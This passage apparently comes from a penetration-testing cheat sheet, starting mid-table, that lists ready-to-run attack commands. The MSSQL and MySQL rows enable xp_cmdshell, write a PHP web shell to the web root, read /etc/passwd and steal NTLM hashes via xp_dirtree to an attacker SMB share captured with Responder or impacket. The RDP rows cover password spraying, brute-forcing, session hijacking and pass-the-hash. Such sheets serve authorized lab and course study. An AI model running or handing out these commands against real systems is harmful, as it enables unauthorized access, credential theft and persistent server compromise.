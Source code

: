 | `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL. |
| `mysql> show variables like "secure_file_priv";` | Check if the the secure file privileges are empty to read locally stored files on the system. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `mysql> select LOAD_FILE("/etc/passwd");` | Read local files in MySQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the `xp_dirtree` command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the `xp_subdirs` command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL.  |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL.  |
| `enable xp_cmdshell` | To apply system commands |
| `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';` | MySQL - Write Local File, MySQL does not have a stored procedure like xp_cmdshell, but we can achieve command execution if we write to a location in the file system that can execute our commands. |
| `select LOAD_FILE("/etc/passwd");` | MySQL - Read Local Files in MySQL |
| | |
| `EXEC master..xp_dirtree '\\10.10.110.17\share\'` | XP_DIRTREE Hash Stealing |
| `EXEC master..xp_subdirs '\\10.10.110.17\share\'` | XP_SUBDIRS Hash Stealing |
| `sudo responder -I tun0` | XP_SUBDIRS Hash Stealing with Responder |
| `sudo impacket-smbserver share ./ -smb2support` | XP_SUBDIRS Hash Stealing with impacket |

### Attacking RDP

|**Command**|**Description**|
|-|-|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using `rdesktop` in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. SESSION HIJACKING |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |
